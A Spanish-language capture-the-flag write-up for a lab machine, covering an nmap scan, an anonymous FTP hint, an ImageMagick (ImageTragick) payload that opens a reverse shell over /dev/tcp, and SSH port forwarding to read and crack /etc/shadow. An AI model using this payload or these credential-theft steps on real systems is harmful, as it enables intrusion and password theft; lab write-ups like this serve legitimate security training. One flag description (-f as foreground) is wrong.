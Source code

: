 
# SCAN

```
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)

```
# FTP
Podemos logearnos en ftp con anonymous y nos muestra un mensaje:
```
30-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
```


En el puerto 8081 hay un servidor web que sirve una pagina web cuyo objetivo es transformar imagenes con extension .png en .jpg y lo realiza
a traves de una aplicacion que se llama imagemagick que presenta una vulnerabilidad del tipo RCE (Remote Command Execution)

![image](https://user-images.githubusercontent.com/70599089/183709438-49160fa4-c516-4d96-9fb0-c938344cb94e.png)


que se puede explotar con metasploit

No me funciona metasploit

# SIN METASPLOIT

En la pagina PayLoadAllThings se encuentra el siguient payload para imagemagik:
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/IP/9999 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
con este payload conseguimos un reverse shell para el usuario magician

# PRIVILEGE ESCALATION
Despues de realizar una enumeracion manual y automatica de la maquina (con linpeas y lse) solo encuentro la siguiente vulnerabilidad:
Mediante el comando ss (show sockets) o lo que es lo mismo netstat encuentro que en el puerto 6666 hay un socket activo que muy probablemente esta filtrado por un firewall y por eso no me lo ha detectado nmap
```
mag`ician@magician:~$ netstat -tlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 localhost:9000          0.0.0.0:*               LISTEN      1392/ssh            
tcp        0      0 localhost:6666          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:tproxy          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:1234          0.0.0.0:*               LISTEN      1405/ssh            
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ip6-localhost:9000      [::]:*                  LISTEN      1392/ssh            
tcp6       0      0 [::]:http-alt           [::]:*                  LISTEN      983/java            
tcp6       0      0 ip6-localhost:1234      [::]:*                  LISTEN      1405/ssh            
tcp6       0      0 [::]:ftp                [::]:*                  LISTEN      -             
```
Podemos intentar acceder a este puerto mediante una tecnica de evasion conocida como **port forwarding** (redireccionamiento de puertos)
Hay dos tipos:
1. Local (L): En este caso desde la maquina atacante que actua como cliente se accede a traves de una tuberia ssh a la maquina target
que actua como servidor. El comando es
$ ssh -L <puerto-atacante>:localhost:<puerto-target> kali@<ip>

2. Remoto (R): En este caso estamos ya dentro de la maquina target que actua como cliente y queremos exponer un puerto (en nuestro caso el 6666). La maquina atacante (nuestra maquina) actua en este caso como servidor:
$ ssh -R 8081:localhost:6666 kali@10.11.62.57 -f -N
 donde 
  -f: para que se lance en el foreground
  -N: para que no se ejecute ningun comando (esto no se muy bien lo que es)
  Una vez ejecutado el port forwarding (reverse) (tener en cuenta que el puerto debe ser 8081 porque otros los bloque firefox, obtenemos un
  formulario y en la caja de entrada vemos que se ejecutan los archivos de la maquina target pero estan codificados en rot 13
  Podemos acceder por tanto a los fichero: /etc/passwd y /etc/shadow, los podemos decodificar (por ejemplo con ciberchef) y podemos intentar
  desencriptar por fuerza bruta el password del root, utilizando previamente la utilidad unshadow
